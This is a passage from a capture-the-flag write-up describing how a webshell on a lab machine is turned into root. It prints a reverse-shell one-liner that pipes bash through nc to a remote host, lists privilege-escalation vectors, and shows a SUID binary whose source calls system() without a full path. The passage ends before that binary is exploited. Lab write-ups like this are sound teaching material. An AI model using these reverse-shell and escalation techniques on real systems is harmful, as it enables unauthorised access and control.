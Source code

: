# Flag 5

The 4th flag is asking us to become root. Let's do that.

With a working webshell, I should be able to get a proper reverse shell by running the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc vps_hostname 4444 >/tmp/f
```

I now have a reverse shell as www-data user. Next, I started to look for privilege escalation vector. I looked for the classic vectors :

- cron jobs
- writable folder
- suid binaries

Then I found a suid binary right at server root :

```bash
$ ls -la /
total 112
drwxr-xr-x   1 root root  4096 Feb 16 13:44 .
drwxr-xr-x   1 root root  4096 Feb 16 13:44 ..
-rwxr-xr-x   1 root root     0 Feb 16 13:44 .dockerenv
drwxr-xr-x   1 root root  4096 Feb 16 13:14 bin
drwxr-xr-x   2 root root  4096 Feb  1  2020 boot
drwxr-xr-x   5 root root   340 Feb 16 13:44 dev
drwxr-xr-x   1 root root  4096 Feb 16 13:44 etc
drwxr-xr-x   1 root root  4096 Feb  9 04:23 home
drwxr-xr-x   1 root root  4096 Feb 26  2020 lib
drwxr-xr-x   2 root root  4096 Feb 24  2020 lib64
drwxr-xr-x   2 root root  4096 Feb 24  2020 media
drwxr-xr-x   2 root root  4096 Feb 24  2020 mnt
-rw-r--r--   1 root root   127 Feb  9 03:50 my_very_special_script.c
-rwsr-sr-x   1 root root 16680 Feb 16 13:14 my_very_special_script.o
drwxr-xr-x   2 root root  4096 Feb 24  2020 opt
dr-xr-xr-x 439 root root     0 Feb 16 13:44 proc
drwx------   1 root root  4096 Feb 26  2020 root
drwxr-xr-x   1 root root  4096 Feb 26  2020 run
drwxr-xr-x   1 root root  4096 Feb 26  2020 sbin
drwxr-xr-x   2 root root  4096 Feb 24  2020 srv
dr-xr-xr-x  13 root root     0 Feb 15 13:29 sys
drwxrwxrwt   1 root root  4096 Feb 16 13:44 tmp
drwxr-xr-x   1 root root  4096 Feb 24  2020 usr
drwxr-xr-x   1 root root  4096 Feb 26  2020 var
```

We have an executable file and the source code :

```bash
$ cat /my_very_special_script.c

#include <unistd.h>
#include <stdlib.h>

int main() {
    setuid(1000);
    system("touch /tmp/hello_world");
    return 0; 
}
```
